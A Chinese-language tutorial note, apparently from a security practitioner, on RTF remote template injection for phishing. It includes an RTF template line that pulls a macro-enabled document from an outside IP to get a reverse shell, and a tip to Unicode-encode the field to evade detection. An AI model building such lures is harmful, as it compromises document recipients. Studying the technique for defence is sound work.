 # RTF注入Office模板

> [Office RTF远程模板注入 - Bl0od - 博客园 (cnblogs.com)](https://www.cnblogs.com/zUotTe0/p/15659420.html)
>
> [黑客越来越多地使用RTF模板注入技术进行网络钓鱼攻击 - 哈客部落 (hake.cc)](https://www.hake.cc/page/article/611.html)
>
> [【钓鱼从入门到放弃】-RTF文档 (atsud0.me)](https://atsud0.me/2022/01/【钓鱼从入门到放弃】-RTF文档/#CVE-2017-8570)
>
> [奇安信威胁情报中心 (qianxin.com)](https://ti.qianxin.com/blog/articles/Analysis-of-the-Donot-group's-attack-campaign-using-RTF-template-injection-against-the-neighbourhood/)
>
> ---
>
> [Decodificando ficheros RTF maliciosos (ciberseguridad.blog)](https://ciberseguridad.blog/decodificando-ficheros-rtf-maliciosos/)
>
> [Rich Text Format (RTF) Version 1.5 Specification (biblioscape.com)](https://www.biblioscape.com/rtf15_spec.htm)
>
> [RTF Template Injection: Phishing Attachment Techniques | Proofpoint US](https://www.proofpoint.com/us/blog/threat-insight/injection-new-black-novel-rtf-template-inject-technique-poised-widespread)
>
> ---
>
> [RTF sample which belongs to APT-C-35 group (only 4 detections in VT)](https://x.com/IntezerLabs/status/1389210529802170370?ref=ciberseguridad.blog)
>
> ---
>
> [富文本格式 (RTF) 1.5 版规范 --- Rich Text Format (RTF) Version 1.5 Specification (biblioscape.com)](https://www.biblioscape.com/rtf15_spec.htm)

RTF是富文本格式(Rich Text Format)又称多文本格式, 是由微软公司开发的跨平台文档格式

大多数的文字处理软件都能读取和保存RTF文档

RTF文档支持 `template` 参数, 可以指定目的模板路径来加载模板

![image-20240611163233113](http://cdn.ayusummer233.top/DailyNotes/202406121124421.png)

---

使用 Office Word 新建一个文档然后保存为 RTF 文档

![image-20240611111848392](http://cdn.ayusummer233.top/DailyNotes/202406121124431.png)

![image-20240611112041230](http://cdn.ayusummer233.top/DailyNotes/202406121124434.png)

使用文本编辑器打开此 RTF 文档

```
{\*\template http://100.1.1.131:8000/download/VBA_PowerShell.docm}
```

![image-20240611141220417](http://cdn.ayusummer233.top/DailyNotes/202406121124425.png)

![image-20240611151608170](http://cdn.ayusummer233.top/DailyNotes/202406121124391.png)

> 这样下载文件特别慢(

等待下载完执行即可达成反弹shell

![image-20240611151622885](http://cdn.ayusummer233.top/DailyNotes/202406121124429.png)

---

> [Office RTF远程模板注入 - Bl0od - 博客园 (cnblogs.com)](https://www.cnblogs.com/zUotTe0/p/15659420.html)
>
> [Rich Text Format (RTF) Version 1.5 Specification (biblioscape.com)](https://www.biblioscape.com/rtf15_spec.htm)

`*\template` 字段参数值可以为Unicode，可以更好隐藏自身

![image-20240612102526403](http://cdn.ayusummer233.top/DailyNotes/202406121124843.png)

![image-20240612112445656](http://cdn.ayusummer233.top/DailyNotes/202406121124781.png)

---

